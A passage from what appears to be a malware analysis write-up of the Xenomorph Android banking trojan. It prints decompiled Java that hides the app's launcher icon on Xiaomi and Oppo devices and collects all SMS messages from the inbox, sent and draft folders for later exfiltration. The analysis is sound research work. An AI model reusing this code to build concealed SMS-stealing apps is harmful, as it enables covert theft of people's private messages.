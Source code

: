 It also starts the `KingService` and sets up persistence.

And interestingly it checks if it's a Xiaomi or an Oppo device to hide the app icon from the launcher.

![hide activity](assets/img/posts/2024-05-02-Xenomorph/hide_activity.png)

```java
public static void deleteLabelIcon(Context context) {
  context.getPackageManager().setComponentEnabledSetting(new ComponentName(context, MainActivity.class), 2, 1);
}
```

Anyways, `FitnessAccessibilityService` and `UtilGlobal` seem to contain core functionality.

### Utilities

Here's a quick rundown of the main utilities found in `UtilGlobal` :

#### 1 - SMS and Phone Numbers Grabber

This code snippet retrieves all SMS messages (Inbox, Sent, and Draft) from the device and stores them in a list that will eventually be saved in the `ring0.xml`.

```java
    public static List<SmsModel> getAllSMS(Context context) {
        ArrayList arrayList = new ArrayList();
        try {
            String[] strArr = {"sms/inbox", "sms/sent", "sms/draft"};
            String str = HttpUrl.FRAGMENT_ENCODE_SET;
            for (int i = 0; i < 3; i++) {
                String str2 = strArr[i];
                Cursor query = context.getContentResolver().query(Uri.parse("content://" + str2), null, null, null, null);
                if (query != null) {
                    while (query.moveToNext()) {
                        arrayList.add(SmsModel.fromCursor(query));
                        str = str + SmsModel.fromCursor(query).toString() + ", ";
                    }
                    query.close();
                    Log(Constants.smsSavedTag, str2 + ": " + str);
                    SettingsWrite(context, Constants.smsSavedTag, str);
                }
            }
        } catch (Exception e) {
            Log("ErrorGetSavedSMS", "getSMS" + e);
        }
        return arrayList;
    }
```
